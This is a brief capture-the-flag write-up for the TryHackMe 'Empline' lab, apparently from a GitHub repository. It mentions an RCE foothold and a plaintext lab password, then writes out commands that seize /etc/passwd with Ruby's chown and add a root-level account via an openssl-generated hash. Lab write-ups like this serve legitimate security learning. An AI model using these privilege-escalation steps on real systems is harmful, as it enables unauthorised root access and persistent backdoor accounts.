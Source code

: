 # Tryhackme Empline Writeup

## Initial foothold

Vhost opencat has vuln to RCE!

## Horizontall Privesc

Mysql to be george

george:pretonnevippasempre

## Root

ruby chown+cp

```bash
george@empline:~$ ruby -e "require 'fileutils'" -e "FileUtils.chown('george','george','/etc/passwd')"
george@empline:~$ ls -la /etc/passwd
-rw-r--r-- 1 george george 1660 Jul 20  2021 /etc/passwd

```

    openssl passwd -1 -salt root2 root   

$1$root2$qP6XJjGSJ/b7ZfJp.GGl80

add this hash in /etc/passwd and su root2 got root



